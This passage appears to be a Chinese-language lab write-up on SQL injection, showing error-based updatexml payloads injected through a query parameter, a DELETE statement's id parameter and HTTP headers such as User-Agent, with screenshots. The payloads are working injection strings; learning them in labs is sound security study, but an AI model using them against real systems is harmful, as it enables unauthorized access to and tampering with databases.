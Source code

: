 构造报错型注入payload：

```mysql
' or (select updatexml(1,concat(0x7e,(select database()),0x7e),1)) #
```

![](https://i.loli.net/2021/02/14/E8g23vRF1aOd6Km.png)

![](https://i.loli.net/2021/02/14/9kFpNlBRWiQqsKu.png)

### delete注入

delete语句：删除数据

```mysql
delete from <表名> [where 子句] [order by 子句] [limit 子句]
```

点击删除=》传参作为删除的筛选条件

猜测后端为：

```mysql
delete from 某表 where id = xxx
```

![](https://i.loli.net/2021/02/14/k4DNhlxXSQ9arbd.png)

可以看到参数：`id=62`

在其后加上payload即可~(此处仍为报错注入)：

```mysql
or (select updatexml(1,concat(0x7e,(select database()),0x7e),1)) #
```

注：payload需进行html编码=》选中然后ctrl+u即可

![](https://i.loli.net/2021/02/14/mwJIPvWHoMFy68Z.png)



### http头注入

http头注入的原理是前端获取参数值，然后将参数拼接到select语句中查询。即与数据库产生交互。

著需要找到http头中传参的地方，将payload输入即可



如图：显示头部信息user-agent、accept

![](https://i.loli.net/2021/02/14/Fb2GILVsH9SKB5M.png)

payload(此处仍是报错注入)：

```
xxx' or (select updatexml(1,concat (0x7e,(select database()),0x7e),1)) or '
```

![](https://i.loli.net/2021/02/14/lUASyjYzIXb7B3J.png)

